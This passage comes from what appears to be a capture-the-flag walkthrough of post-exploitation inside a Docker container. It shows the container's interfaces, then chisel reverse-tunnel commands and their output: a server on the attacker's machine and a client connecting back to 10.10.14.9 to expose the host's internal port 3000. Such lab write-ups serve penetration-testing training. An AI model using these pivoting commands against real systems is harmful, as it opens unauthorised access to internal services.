 ## User
Once we get a foothold into the container we can run `deepce.sh` to check if there is any misconfiguration in the running container that can allow us to evade the container. Unfortunately we cannot find anything.  
If we remember, during our initial nmap scan we found a filtered port 3000 that we assumed was listening on localhost.  
Now we can try to use this container as a proxy to reach that port and see if we can exploit the service.  
If we look at the interfaces:  
```shell
/app # ifconfig
eth0      Link encap:Ethernet  HWaddr 02:42:AC:11:00:03  
          inet addr:172.17.0.3  Bcast:172.17.255.255  Mask:255.255.0.0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:2814 errors:0 dropped:0 overruns:0 frame:0
          TX packets:2460 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0 
          RX bytes:981877 (958.8 KiB)  TX bytes:1483557 (1.4 MiB)

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:0 errors:0 dropped:0 overruns:0 frame:0
          TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:0 (0.0 B)  TX bytes:0 (0.0 B)
```
We can see that the container has the IP `172.17.0.3`,  hence we can assume that the router `172.17.0.1` is the actual machine where this container is running.  
Now, as we did for [Antique](Antique.md) we can set up chisel to forward the port 3000 to our host making the container acting as a proxy between our host and localhost.  
On our machine, we can run the following command:  
```shell
[root@kali chisel (master)]$ ./chisel server -p 8000 --reverse
2022/08/01 14:35:28 server: Reverse tunnelling enabled
2022/08/01 14:35:28 server: Fingerprint ciI1E12tHUnUz/5sH6VMTLWagtwn+M2mzYVgN3ZA7FU=
2022/08/01 14:35:28 server: Listening on http://0.0.0.0:8000
2022/08/01 14:37:39 server: session#1: Client version (1.7.7) differs from server version (0.0.0-src)
2022/08/01 14:37:39 server: session#1: tun: proxy#R:3000=>172.17.0.1:3000: Listening
```
While, on the remote host, we can run:  
```shell
/home # ./chisel client 10.10.14.9:8000  R:3000:172.17.0.1:3000
2022/08/01 12:37:38 client: Connecting to ws://10.10.14.9:8000
2022/08/01 12:37:39 client: Connected (Latency 33.338247ms)
```
Now, if we navigate to `localhost:3000`, we can see the following:  